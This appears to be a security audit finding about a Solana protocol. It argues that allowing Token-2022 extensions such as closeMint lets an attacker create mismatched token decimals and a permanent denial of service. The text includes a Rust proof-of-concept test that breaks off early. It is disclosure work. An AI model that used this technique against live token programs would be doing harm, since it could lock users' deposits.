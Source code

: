 However, this does not fully protect against the possibility of manipulating the token's decimal value via the `closeMint` extension or similar risky extensions, leaving the protocol vulnerable. The following function relies on the assumption of matching decimals:

```rust
pub fn calculate_input_token_amount(&self, amount: u64) -> u64 {
    amount
}
```

This invariant is broken if the decimal values of the tokens differ, which could result in an imbalance such as 1:100 or another unintended ratio.

## Impact
Allowing arbitrary token extensions, especially the `closeMint` extension, can lead to a mismatch between input and output token decimals, which directly affects the protocol’s operations. put the program in manipulated state, and still have serious impact here which will be permanent DOS due to the fact that the deposit function will not work with mismatched decimals.

Additionally, extensions such as the `transfer fee` extension can further degrade the protocol’s security, leading to unpredictable fees and impacting the fairness and integrity of token exchanges.

## Proof of Concept

The following tests demonstrate how to simulate this attack:

```rs
#[cfg(test)]
mod tests {
    use solana_program::pubkey::Pubkey;
    use solana_program_test::*;
    use solana_sdk::{
        signature::{Keypair, Signer},
        transaction::Transaction,
        system_instruction,
    };
    use spl_token_2022::{
        instruction::{initialize_mint2, close_account, set_authority, initialize_mint_close_authority},
        extension::ExtensionType,
        state::Mint,
    };
    use solana_program::program_pack::Pack; // Import the Pack trait for Mint::LEN

    async fn create_mint(
        banks_client: &mut BanksClient,
        payer: &Keypair,
        mint_keypair: &Keypair,
        mint_authority: &Keypair,
        freeze_authority: Option<&Pubkey>,
        decimals: u8,
    ) -> Result<(), Box<dyn std::error::Error>> {
        // Calculate the space required using the ExtensionType
        let space = ExtensionType::try_calculate_account_len::<Mint>(&[ExtensionType::MintCloseAuthority]).unwrap();
        // Use Mint::LEN from the Pack trait
        let mint_account_rent = banks_client
            .get_rent()
            .await?
            .minimum_balance(space);
    
        let recent_blockhash = banks_client.get_latest_blockhash().await?;
    
        // Step 1: Create the account for the mint with the required size and rent-exempt balance
        let create_account_tx = Transaction::new_signed_with_payer(
```